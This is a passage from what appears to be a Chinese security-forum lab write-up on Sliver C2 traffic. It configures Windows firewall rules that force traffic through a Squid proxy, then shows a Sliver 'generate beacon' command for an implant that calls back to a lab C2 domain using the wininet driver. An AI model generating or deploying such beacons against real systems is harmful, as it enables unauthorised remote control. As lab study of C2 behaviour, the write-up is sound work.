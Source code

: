 配置防火墙进出策略  
首先使用命令查看当前防火墙配置文件，这里为公用配置文件（Public）

```shell
netsh advfirewall show currentprofile
公用配置文件 设置:
----------------------------------------------------------------------
状态                                  启用
防火墙策略                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (仅 GPO 存储)
LocalConSecRules                      N/A (仅 GPO 存储)
InboundUserNotification               启用
RemoteManagement                      禁用
UnicastResponseToMulticast            启用

日志:
LogAllowedConnections                 禁用
LogDroppedConnections                 禁用
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

确定。
```

![p9VRVrF.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-10720d90e0ee835f71dab489ced7116a92b02dff.png)  
确认好后，此时再连接任何网站都会显示失败。  
之后添加两个防火墙规则，其一是本地任何端口连接HTTP Proxy服务器的TCP3128端口。  
![p9VRmVJ.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-dd4c8413f02eb5031de4f1cab15ea47e57496fa2.png)  
其二就是连接DNS服务器上的UDP53端口，方法类似。

尝试访问，可以在代理日志中查询到对应的访问记录

```shell
tail -f /var/log/squid/access.log
```

![p9VRZb4.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-7bd8726150e48c4841aa2bee256f2b296b5c29df.png)

### 4.2 HTTPS 通信分析

创建 Implant ，除了常规的定义方法，还可以定义具有相同域名但具有不同HTTP选项的C2端点。

```shell
generate beacon --http sliver.labnet.local,sliver.labnet.local?driver=wininet --seconds 5 --jitter 0
https
http
```

这里第二个域名中添加了参数`driver=wininet`，表示使用 \[wininet\]([About WinINet - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/wininet/about-wininet)) 驱动程序进行HTTP通信。

> 在Sliver中，HTTP驱动程序用于生成基于HTTP协议的beacon，并与Sliver服务器进行通信。HTTP驱动程序默认实现是纯Go实现的，但在某些情况下，纯Go实现的HTTP驱动程序可能无法正常工作，例如在使用某些代理服务器或防火墙时。此时，Sliver会尝试使用"wininet"驱动程序，该驱动程序依赖于本地Windows WinInet API。这个驱动程序通常比纯Go实现的HTTP驱动程序更可靠，因为它使用操作系统提供的底层网络功能，可以更好地处理一些复杂的网络环境。

